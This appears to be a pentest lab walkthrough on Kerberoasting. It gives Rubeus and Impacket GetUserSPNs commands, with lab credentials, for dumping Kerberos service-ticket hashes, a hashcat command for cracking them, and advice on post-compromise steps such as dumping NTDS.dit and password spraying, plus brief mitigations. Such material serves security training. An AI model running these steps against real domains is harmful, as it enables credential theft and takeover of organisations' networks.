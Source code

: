 # Kerberoasting with Rubeus & Impacket

### **Introduction**

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.

In order to perform the attack, we'll be using both Rubeus as well as Impacket so you understand the various tools out there for Kerberoasting. There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.

***

### **Method 1 : Kerberoasting with Rubeus**

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users

<figure><img src="../../../../../../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

3. `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

***

### **Method 2 - Impacket**

#### Impacket Installation

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20

1. `cd /opt` navigate to your preferred directory to save tools in
2. download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19
3. `cd Impacket-0.9.19` navigate to the impacket directory
4. `pip install .` - this will install all needed dependencies

#### Kerberoasting w/ Impacket

1. `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located
2. `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.15.51 -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.
3. `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

***

### **What Can a Service Account do**

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

***

### **Kerberoasting Mitigation**

#### Strong Service Passwords

If the service account passwords are strong then kerberoasting will be ineffective

#### Don't Make Service Accounts Domain Admins

Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

***
